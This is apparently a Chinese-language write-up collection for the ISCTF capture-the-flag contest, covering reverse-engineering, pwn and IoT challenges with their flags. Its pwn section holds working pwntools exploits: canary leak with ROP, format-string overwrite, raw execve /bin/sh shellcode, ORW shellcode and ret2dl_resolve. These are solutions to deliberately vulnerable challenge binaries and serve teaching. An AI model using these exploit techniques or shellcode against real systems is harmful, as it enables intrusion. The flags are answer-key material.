JCC数量并不多，根据地址也能确定他跳往哪个位置。如果想要尝试自动修复，这里推荐使用`keyStone`或者`zydis`，这里图方便，直接用工具+手动修复。




 
算法并不难，就是个异或+交换位置，不过多阐述



```c
void dec() {
    char arr[] = {
        0x75, 0xb9, 0x3b, 0x34, 0x41, 0x6c, 0xa4, 0x4a, 0x9b, 0x46, 0x73, 0x7c, 0x84, 0x9d, 0x4b, 0x92,
        0x38, 0x37, 0x8a, 0x73, 0x96, 0x31, 0x75, 0x63, 0x2f, 0x29, 0x6a, 0x28, 0x7c, 0x34, 0x37, 0x27 };
    int temp = 0;
    int idxs[] = { 20,6,12,4,27,26,28,18,3,31,11,25,24,10,1,5,23,22,8,19,17,7,15,29,30,13,21,9,2,31,14,16 };
    for (int i = 31; i > -1; i--) {
        temp = arr[i];
        arr[i] = arr[idxs[i] - 1];
        arr[idxs[i] - 1] = temp;
        arr[i] -= i;
    }
    for (int i = 0; i < 32; i++) {
        arr[i] ^= idxs[i];
        printf("%c",arr[i]);
    }
}
```

>flag:ISCTF{cc15cffe04b1b3f72e0f50e4ba28a09c}

### easyopcode


```markdown
出题人：tacooo0o

学校：西安邮电大学

别猜了别猜了我错了
```

[题目附件](Reverse/easyopcode/files/xxxxxx.zip)

简单vm逆向分析，逻辑很直白，主要的操作还是只有异或，但是有7个异或指令，且异或的数不一样，但真正分析后发现使用到的只有3个

Opcode中加了很多重复赋值，每个赋值只用取一次就可

vm_R3vers3_i5_FUnny!

ISCTF{vm_R3vers3_i5_FUnny!}

>flag:ISCTF{vm_R3vers3_i5_FUnny!}

### 青春re手不会梦到密码学学姐







```markdown
出题人：guoql

学校：河南师范大学

你知道模逆元是什么吗？
```

```markdown
最后一步均为小写字母
```

```markdown
不要管细枝末节，将主要内容逆出来后分析算法即可
```

[题目附件](Reverse/青春re手不会梦到密码学学姐/files/re.zip)

零解题,源代码：

链接: https://pan.baidu.com/s/1SV71L2SYrksLpVJJcZJNVg?pwd=yuki 提取码: yuki

### simple_flower



```markdown
出题人：pl1rry

学校：成都东软学院

套上ISCTF{}后提交
```

[题目附件](Reverse/simple_flower/files/simple_flower.exe)

```c
			//wp
			//for (int t = 31; t > -1; t--) {
			//	unsigned char bitMap[32] = { 0 };
			//	input[4] ^= input[0];
			//	input[0] ^= input[5];
			//	input[1] ^= input[6];
			//	input[2] ^= input[7];
			//	input[3] ^= input[8];
	
			//	for (int i = 0; i < 4; i++) {
			//		int j = 0;
			//		int n = input[i];
			//		while (n / 2)
			//		{
			//			bitMap[4 * i + j] = (unsigned char)(n % 2);
			//			j++;
			//			n /= 2;
			//		};
			//	}
			//	//就是个单纯取反
			//	if (t % 2 == 1) {
			//		for (int i = 0; i < 32; i++) {
			//			if (bitMap[i] == 0) {
			//				bitMap[i] = 1;
			//			}
			//			else {
			//				bitMap[i] = 0;
			//			}
			//		}
			//	}

			//	for (int i = 35, j = 31; i > 4; i--, j--) {
			//		if (bitMap[j] == 1 && bitMap[j - 1] == 0) {
			//			input[i] ^= input[i - 1];
			//		}
			//		else if (bitMap[j] == 1 && bitMap[j - 1] == 1) {
			//			input[i] -= input[i - 1];

			//		}
			//		else if (bitMap[j] == 0 && bitMap[j - 1] == 0) {
			//			input[i] += input[i - 1];
			//		}
			//	}
			//}
			//printf("%s",input);

```

>flag:ISCTF{Easyc4ca4238a0b923820dcc509a6f75849b}

### Block


```markdown
出题人：f00001111

学校：大理大学

小蓝鲨参加了114514年的ISCC，他遇到了一道Mobile题，你能帮他拿到flag吗？`密码学博士李华最近在研究一种算法，你能破解这个算法吗？`

flag格式：将ISCC改为ISCTF
```

[题目附件](Reverse/Block/files/Block.apk)

零解题，有解后公开WP，或解法被公开后公开WP

## Pwn

### easy_ret2libc


```markdown
出题人：晨

学校：福建师范大学

%s在哪里呢
```

[题目附件](Pwn/easy_ret2libc/files/easy_ret2libc)

[题目附件](Pwn/easy_ret2libc/files/libc-2.27.so)

### inequable_ret2text


```markdown
出题人：晨

学校：福建师范大学

我的system和/bin/sh哪里去了？
```

[题目附件](Pwn/inequable_ret2text/files/inequable_ret2text)

exp
```python
from pwn import*
context.log_level = "DEBUG"
#io = process("./a.out")
io = remote("10.144.0.228",30202)
elf = ELF("./strange_ret2text")
io.recvuntil("Do you know how the strlen function stops?")
payload = b"\x00"+b"/bin/sh"
io.sendline(payload)
io.recvuntil("Right on! So do you know what a canary is?")
payload = b"%19$p"
io.sendline(payload)
io.recv()
canary = int(io.recvuntil("\nAre you ready? Let's go!",drop = True),16)
gadget2_addr = 0x4008F6
binsh_addr = 0x601091
gadget1_addr = 0x4008E0
execve_got = elf.got['execve']
payload = cyclic(0x40-0x8)+p64(canary)+cyclic(0x8)+p64(gadget2_addr)
payload += cyclic(0x8)
payload += p64(0)
payload += p64(1)
payload += p64(execve_got)
payload += p64(binsh_addr)
payload += p64(0)
payload += p64(0)
payload += p64(gadget1_addr)
payload += cyclic(56)
payload += p64(0xabcdbac)
io.sendline(payload)
io.interactive()
```

>flag:动态flag

### nc_pwn


[题目附件](Pwn/nc_pwn/files/pwn)

### guess_number


```markdown
出题人：晨

学校：福建师范大学

来一场竞争刺激的猜数字吧！
```

[题目附件](Pwn/guess_number/files/guess_number)

[题目附件](Pwn/guess_number/files/libc-2.27.so)

exp
```python
from pwn import*
from ctypes import *
context.log_level = "DEBUG"
libc = cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6")
#io = process("./a.out")
io = remote("10.144.0.228",30160)
seed = libc.time(0)
libc.srand(seed)
io.recvuntil("Tell me your name:")
io.sendline(b"0")
io.recvuntil("Let's go!\n")
for i in range(100):
    buf = libc.rand() % 10000 + 1
    io.sendline(str(buf))
    io.recvuntil("congratulations!")

io.interactive()
```

>flag:动态flag

### format_string


```markdown
出题人：晨

学校：福建师范大学

小心'\n'哦
```

[题目附件](Pwn/format_string/files/format_string)

exp
```python
from pwn import*
context.arch = "amd64"
context.log_level = "DEBUG"
elf = ELF("./format_string")
#io = process("./a.out")
io = remote("10.144.0.228",30205)
io.recvuntil("Tell me your answer: ")
payload = 0x3FFF8995AAF78FEF
io.send(p64(payload))
io.recvuntil("Good. Next, try to rewrite a set of data.")
check_addr = 0x6010BC
payload = fmtstr_payload(22, {check_addr:197109})
io.sendline(payload)
io.recvuntil("What's wrong with shellcode?")
shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
#shellcode = b"Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t8"
io.send(shellcode)
io.interactive()
```

>flag:动态flag

### candy_house


```markdown
出题人：kotoriseed

学校：成都东软学院
```

[题目附件](Pwn/candy_house/files/candy_house)

对题意简单的分析一下，在第i次操作时选中第k个bag，然后进行一个类似于

```python
for idx in range(N):
	if idx != k:
		bag[idx] += i
```

这样的操作。

很容易推出一个规律，按顺序从1到N全部选择一次，就能让所有数字相等。

exp:

```python
from pwn import *
context.log_level='debug'
p = process("./candy_house");
# p = remote(ip, port)

p.sendline()
for i in range(1, 4):
	p.recvuntil(': ')
	p.sendline(str(i))

p.recvuntil('are ')
num = int(p.recv(3))
# print(num)
for i in range(1, num+1):
	p.recvuntil(': ')
	p.sendline(str(i))

p.interactive();
```

>flag:动态flag

### csu



```markdown
出题人:x1aob1n

单位:厦门理工学院
```

[题目附件](Pwn/csu/files/pwn)

### babycode



```markdown
出题人：CHEN

学校：hznu

len(shellcode)<?
```

[题目附件](Pwn/babycode/files/babycode)

exp
```python
#encoding: utf-8
#!/usr/bin/python
from pwn import*
context.arch="amd64"
binary_name = "babycode"
local = 1
se      = lambda data               :io.send(data) 
sa      = lambda delim,data         :io.sendafter(delim, data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(delim, data)
rc      = lambda num          		:io.recv(num)
rl      = lambda                    :io.recvline()
ru      = lambda delims             :io.recvuntil(delims)
uu32    = lambda data               :u32(data.ljust(4, b'\x00'))	
uu64    = lambda data               :u64(data.ljust(8, b'\x00'))
info    = lambda tag, addr          :log.info(tag + " -------------> " + hex(addr))
ia		= lambda                    :io.interactive()
if local==0:
	io = remote()
else:
	io = process("./"+binary_name)

orw = asm('''
	nop\nnop\nnop\nnop\nnop\nnop
	push 0x67616c66
	mov rdi,rsp
	mov rax,2
	mov rsi,0
	syscall

	mov rdi,3
	mov rsi,0x400200
	mov rdx,0x30
	mov rax,0
	syscall

	mov rdi,1
	mov rsi,0x400200
	mov rdx,0x30
	mov rax,1
	syscall 
''')
payload = asm('''
	push 0x40000a
	pop rsi
	xchg edi,edi
	syscall 
''')
shellcode = asm(shellcraft.sh())
sla("honey~","-2147483648")
sl("aaaa")
sa("enjoy!",payload)
sl(orw)
ia()
```

>flag:动态flag

### nothing_to_do



```markdown
出题人：kotoriseed

学校：成都东软学院
```

[题目附件](Pwn/nothing_to_do/files/nothing_to_do)

标准的ret2dl，打栈迁+劫持dl_fixup

exp:

```python
from pwn import *
# context(os='linux', arch='i386', log_level='debug')
elf = ELF('./ret2dl')
p = process('./ret2dl')
# p = remote(ip, port)

# gadgets
ppp_ret = 0x08049251 # pop esi ; pop edi ; pop ebp ; ret
pop_ebp = 0x08049253 # pop ebp ; ret
leave_ret = 0x08049105 # leave ; ret

# addr
read_plt = elf.plt['read']
read_got = elf.got['read']
rel_plt = 0x8048314
dynsym = 0x8048248
string_table = 0x8048298
bss_inf = 0x804c000 + 0x800
plt_0 = 0x8049030

pay = b'a'*0x2c + p32(read_plt) + p32(ppp_ret) + p32(0) + p32(bss_inf) + p32(0x100)
pay += p32(pop_ebp) + p32(bss_inf) + p32(leave_ret)
p.sendline(pay)

# gdb.attach(p)

fake_sym_addr = bss_inf + 0x38
fake_sym = p32(bss_inf+0x20-string_table) + p32(0) + p32(0) + p32(12)
r_info = (((fake_sym_addr-dynsym)//16)<<8)|7
fake_read_addr = bss_inf + 0x30
reloc_offset = fake_read_addr-rel_plt
fake_read = p32(read_got) + p32(r_info)

cmd_addr = bss_inf + 0x28
pay = b'aaaa' + p32(plt_0) + p32(reloc_offset) + p32(0) # _dl_runtime_resolve
pay += p32(cmd_addr) + p32(0)*3
pay += b'system\x00\x00' + b'/bin/sh\x00'
pay += fake_read + fake_sym
p.sendline(pay)

p.interactive()

```

>flag:动态flag

### null



```markdown
出题人：x1aob1n

单位：厦门理工学院
```

[题目附件](Pwn/null/files/null)

[题目附件](Pwn/null/files/libc-2.27.so)

## Iot

### 眼花缭乱


```markdown
出题人:x1aob1n

单位：厦门理工学院

flag格式：ISCTF{得出来的信息}
```

```markdown
avr架构固件. 这8个小灯泡，闪呀闪，到底在说什么话呢
```

### ezarm





```markdown
出题人x1aobin

单位厦门理工学院

该固件内部存在2个任务task1和task2，这两个任务采用某种系统中断，请求出该中断间隔(单位ms) 

这两个任务task1或者是task2他们任务内部都是在执行一个交替高低电平的操作，请求出交替间隔(单位ms)，设晶振频率为25M,机器周期为T × 12

flag格式:ISCTF{中断间隔/交替间隔}

例如中断间隔10ms，交替间隔0.5ms: ISCTF{10/0.5}

如果是小数则去0保留有效位数(例如0.55000,则0.55)，如果是整数则不保留
```

```markdown
任务切换采用systick，一次1ms

高低电平交替采用软件中断，中断一次的时间等于系统执行一次代码命令的时间
```

[题目附件](Iot/ezarm/files/eziot.hex)



ida打开选择arm架构的小端序



追踪start函数下来



看到主体函数


关注这个函数



除1000可以判断出来是1ms一次



点进具体任务

看到sub_5b8



很明显的软件中断，执行一次机器指令的时间*1000就是了

机器指令时间=1/机器周期/25=12/25 晶振为Mhz 所以单位是10的-6次方，换成ms 就是0.48了

>flag:ISCTF{100/0.48}